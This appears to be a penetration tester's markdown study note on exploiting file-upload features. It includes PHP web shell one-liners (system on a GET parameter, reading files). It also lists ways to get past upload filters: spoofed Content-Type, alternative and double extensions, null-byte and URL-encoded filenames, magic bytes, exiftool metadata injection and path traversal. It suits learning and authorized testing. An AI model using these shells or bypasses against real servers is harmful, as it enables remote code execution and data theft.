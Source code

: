 
- you can upload PHP files to get RCE (Remote Code Execution) or a Web Shell

```php
<?php echo file_get_contents('/dir/dir/file'); ?>
<?php echo system($_GET['command']); ?>

```


# Bypass filter
```python
- Upload php file then change the Content-Type to image/jpeg or image/png
- use different case - file.pHp
- use extensions such as php5, shtml
- In Apache, a php file might be executed using the double extension technique such as “file.php.jpg” when “.jpg” is allowed.
- use different encoding techniques (null byte, singe and double url encode):
	%2E = .
	%25, %32, %65 = %, 2, 3
	%00 = null byte

	- shell%2E.php
	- shell%25%32%65.php
	- shell.php%00.jpg
	- shell.phpl.jpg



```

![[Pasted image 20221124192425.png]]




# chain attack
```python
- if the application is not validated to restrict executable file upload but restricts the execution of it in specific directory but have a path traversal vulnerability on upload. Upload the executable file (php, etc.) to a different location. Remember to use different encoding techniques to bypass filter.

-
```


# Tools

### Exiftool
```python
- this tool is used to reading, writing, and manipulating image, video, and pdf metadata.
- can be used to insert php code on an image

example:
>> exiftool --comment="shell code here" <filename>

>> exiftool -DocumentName="shell code here" <filename>

```


# Single Character to null
```python
In burpsuite repeater request section, you can see different formats of like raw and hex, if you want to try the null byte attack, you can insert to the filename like this: myfile.php%00.jpg. Or you insert first like this myfile.phpA.jpg then go to hex then change the value of the character "A" to 00 as null. It will show the name "myfile.php.jpg" but with a null byte without having to type %00.
```


# Magic Bytes
```python
Some server look only the first few bytes to determine the content of a file but that vulnerability you can insert malicious code on it even on jpg.
```


































